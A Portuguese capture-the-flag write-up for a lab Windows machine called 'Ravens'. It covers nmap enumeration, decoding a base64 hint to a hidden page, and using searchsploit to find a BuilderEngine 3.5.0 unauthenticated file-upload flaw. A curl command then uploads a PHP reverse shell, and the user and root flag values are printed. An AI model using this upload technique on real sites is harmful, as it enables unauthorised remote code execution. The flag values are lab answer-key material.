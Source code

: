 EHPT - Ravens

# EHPT - Ravens

## Enumeração

### Scan inicial

- Full NMAP scan TCP

  ```
  dcruz@kali:/dcruz/ehpt/ravens/scan$ cat full.nmap 
  # Nmap 7.80 scan initiated Sat Jun 20 00:00:16 2020 as: nmap -p80,135,139,443,445,3306,3389,7680,49664,49665,49666,49667,49669,49670,49671 -A -Pn -oA full 10.0.0.11
  Nmap scan report for 10.0.0.11
  Host is up (0.00034s latency).
  
  PORT      STATE SERVICE            VERSION
  80/tcp    open  http               Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
  |_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
  135/tcp   open  msrpc              Microsoft Windows RPC
  139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
  443/tcp   open  ssl/http           Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
  |_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
  |_http-title: Bad request!
  | ssl-cert: Subject: commonName=localhost
  | Not valid before: 2009-11-10T23:48:47
  |_Not valid after:  2019-11-08T23:48:47
  |_ssl-date: TLS randomness does not represent time
  | tls-alpn: 
  |_  http/1.1
  445/tcp   open  microsoft-ds?
  3306/tcp  open  mysql              MariaDB (unauthorized)
  3389/tcp  open  ssl/ms-wbt-server?
  |_ssl-date: 2020-06-20T03:01:37+00:00; +2s from scanner time.
  7680/tcp  open  pando-pub?
  49664/tcp open  msrpc              Microsoft Windows RPC
  49665/tcp open  msrpc              Microsoft Windows RPC
  49666/tcp open  msrpc              Microsoft Windows RPC
  49667/tcp open  msrpc              Microsoft Windows RPC
  49669/tcp open  msrpc              Microsoft Windows RPC
  49670/tcp open  msrpc              Microsoft Windows RPC
  49671/tcp open  msrpc              Microsoft Windows RPC
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  |_clock-skew: mean: 1s, deviation: 0s, median: 1s
  |_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:2a:16:31 (Microsoft)
  | smb2-security-mode: 
  |   2.02: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2020-06-20T03:01:13
  |_  start_date: 2020-06-20T01:38:19
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Sat Jun 20 00:02:35 2020 -- 1 IP address (1 host up) scanned in 138.90 seconds
  ```


### 80/TCP - Website

- Ao navegar para a pagina inicial fui redirecionado para a página https://10.0.0.11/teste/index.php. Esta página contém uma imagem e o seguinte código fonte

  ```html
  <html>
  <head><title>Teste PHP</title></head>
  <body>
      <p>Olá Jovem </p> <img src="bino.png" alt="some text" width=800 height=600>
      <p>Muitas vezes uma porta leva a varios lugares, precisamos olhar com calma
      <p><p>muitas vezes usar de força bruta
      <p><p>
      <p><p>a
      <p><p>a
      <p><p> a
      <p><p>a
      <p><p> a
      <p><p>a
      <p><p>a
      <p><p>a
      <p><p>a
      <p><p>YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s
      <p>
  </body>
  </html>
  ```

- Inspecionando o texto **YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s**  não foi possível detectar nenhum tipo formato hash, porém verificando como algum conteúdo codificado, identificado que se trata de um **Base64** que foi decodificado, confome abaixo

  ```
  dcruz@kali:/dcruz/ehpt/homelander/exploit$ echo -n 'YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s' | base64 -d
  build/page-coelho-branco-neo.html
  ```

- Acessando a página informada identificado que se tratava de um site criado com BuilderEngine.

## Exploração

- Verificando no searchsploit o produto utilizado para criar o site, encontrado uma vulnerabilidade de File Upload

  ```
  dcruz@kali:/dcruz/ehpt/homelander$ searchsploit builderengine
  ---------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                        |  Path
  ---------------------------------------------------------------------- ---------------------------------
  BuilderEngine 3.5.0 - Arbitrary File Upload                           | php/webapps/40390.php
  BuilderEngine 3.5.0 - Arbitrary File Upload and Execution (Metasploit | php/remote/42025.rb
  ---------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results
  ```

- Com base no que foi informado nos arquivos é possivel fazer o upload de um arquivo qualquer sem necessidade de se autenticar. feito isso utilizado um shell reverso PHP para Windows, conforme enumeração inicial executada e foi possível obter um shell reverso, através da execução da linha de comando abaixo, onde o arquivo a ser carregado já possui os apontamentos de endereço IP para upload

  ```bash
  curl -F 'files=@/dcruz/ehpt/homelander/exploit/shell.php' http://10.0.0.14/build/themes/dashboard/assets/plugins/jquery-file-upload/server/php/
  
  ```

- Ao navegar ao site, foi obtido o shell reverso na maquina, possibilitando obter a flag de user e root

  ```
  c:\Users\Administrator\Desktop>type admin.txt
  type admin.txt
  8be5044c51b1b9b37f50b33c7f4433           
  ```

  ```
  c:\Users\Eric Draven\Desktop>type user.txt
  type user.txt
  891b3a9ba0e97072aefa681132f933fd
  ```